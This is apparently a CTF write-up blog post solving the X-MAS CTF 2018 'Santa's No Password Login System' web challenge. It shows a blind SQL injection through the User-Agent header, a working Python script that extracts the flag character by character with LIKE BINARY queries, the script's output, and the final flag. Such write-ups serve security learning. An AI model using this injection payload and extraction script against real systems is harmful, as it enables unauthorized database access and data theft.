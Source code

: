 ```yaml
---
layout: post
title: "X-MAS CTF: Santa's No Password Login System"
date: 2018-12-21
excerpt: "Blind SQL injection in the user-agent field? Nobody expected that..."
tags: [CTF, SQL, Python, Web]
categories: [CTF, Web]
comments: true
feature: /assets/posts_details/XMAS_CTF/nologin/header.png
---
```


# X-MAS CTF: Santa's No Password Login System

The challenge description is:

![Img](/assets/posts_details/XMAS_CTF/nologin/intro.png "Img")

And once we go to the main page we are greeted with the following:

![Img](/assets/posts_details/XMAS_CTF/nologin/main.png "Img")

I knew the cookies didn't have anything to do with the challenge, given that they were used in another one, and that there was some kind of verification with some headers (no other data was being passed). After a lot of tests, It turned out that the user-agent field contained a SQL injection vulnerability!

![Img](/assets/posts_details/XMAS_CTF/nologin/sql_test.png "Img")

I tried to pass something that would evaluate to true: ``' OR '1'='1``. Nothing changed apart from the access denied thing, instead of that I got a ``Welcome`` message:

![Img](/assets/posts_details/XMAS_CTF/nologin/sql_message.png "Img")

That brought to mind a blind SQL injection. There was a problem, though. I didn't know what was the name of the parameter that the SQL was querying...

After quite a lot of time I found out that it was ``ua``. Quite silly (user-agent -> ua).

I tried some things, like checking the length of the ``ua``. The message indicated whether my query was true (``Welcome``) or false (``Access denied``).

![Img](/assets/posts_details/XMAS_CTF/nologin/blind_sql_1.png "Img")

![Img](/assets/posts_details/XMAS_CTF/nologin/blind_sql_40.png "Img")

So the ``ua`` is longer than 1 character and shorter than 40. With that method I found out that the ``ua`` is 37 chars long:

![Img](/assets/posts_details/XMAS_CTF/nologin/blind_sql_37.png "Img")

Then, I tried to extract the value with a blind SQL method: ``LIKE BINARY``. What this does is it compares the start of the ``ua`` to some substring we provide.

I tried checking if the first char was ``A``, but it wasn't:

![Img](/assets/posts_details/XMAS_CTF/nologin/like_op.png "Img")

Then, to check that the method worked I used the wildcard ``%``, which substitutes any character any number of times (any string). And indeed it worked!

![Img](/assets/posts_details/XMAS_CTF/nologin/like_op_wildcard.png "Img")

Then, I thought that the ``ua`` had to be the flag, so I tried with ``X%``:

![Img](/assets/posts_details/XMAS_CTF/nologin/like_op_flag.png "Img")

I was right! It is the flag. Now, the only thing left is automate this task, as it is rather tedious to do this by hand. I wrote a simple python script that does this for me:

```python
import urllib2

flag = ""

chars = '-\{\}0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_'

for i in range(0, 37):
    for i in range(0, len(chars)):
        str = """' OR ua LIKE BINARY "{}%";#""".format(flag+chars[i])
        headers =  {
                'User-Agent': str,
        }

        req=urllib2.Request("http://199.247.6.180:12003/", None, headers)
        response=urllib2.urlopen(req).read()

        if "Welcome" in response:
            flag += chars[i]
            print flag
            break
```

I run it and see that it works and the flag gets echo'ed!

```terminal
python blind_sql.py
X
X-
X-M
X-MA
X-MAS
X-MAS{
X-MAS{E
X-MAS{EV
X-MAS{EV3
X-MAS{EV3R
X-MAS{EV3RY
X-MAS{EV3RY0
X-MAS{EV3RY0N
X-MAS{EV3RY0NE
X-MAS{EV3RY0NE_
X-MAS{EV3RY0NE_F
X-MAS{EV3RY0NE_F3
X-MAS{EV3RY0NE_F34
X-MAS{EV3RY0NE_F34R
X-MAS{EV3RY0NE_F34R5
X-MAS{EV3RY0NE_F34R5_
X-MAS{EV3RY0NE_F34R5_T
X-MAS{EV3RY0NE_F34R5_TH
X-MAS{EV3RY0NE_F34R5_TH3
X-MAS{EV3RY0NE_F34R5_TH3_
X-MAS{EV3RY0NE_F34R5_TH3_B
X-MAS{EV3RY0NE_F34R5_TH3_BL
X-MAS{EV3RY0NE_F34R5_TH3_BL1
X-MAS{EV3RY0NE_F34R5_TH3_BL1N
X-MAS{EV3RY0NE_F34R5_TH3_BL1ND
X-MAS{EV3RY0NE_F34R5_TH3_BL1ND_
X-MAS{EV3RY0NE_F34R5_TH3_BL1ND_G
X-MAS{EV3RY0NE_F34R5_TH3_BL1ND_GN
X-MAS{EV3RY0NE_F34R5_TH3_BL1ND_GN0
X-MAS{EV3RY0NE_F34R5_TH3_BL1ND_GN0M
X-MAS{EV3RY0NE_F34R5_TH3_BL1ND_GN0M3
X-MAS{EV3RY0NE_F34R5_TH3_BL1ND_GN0M3}
```

We finally get that the flag is: ``X-MAS{EV3RY0NE_F34R5_TH3_BL1ND_GN0M3}``.

---

<center>
<i>Diego Bernal Adelantado</i>
</center>
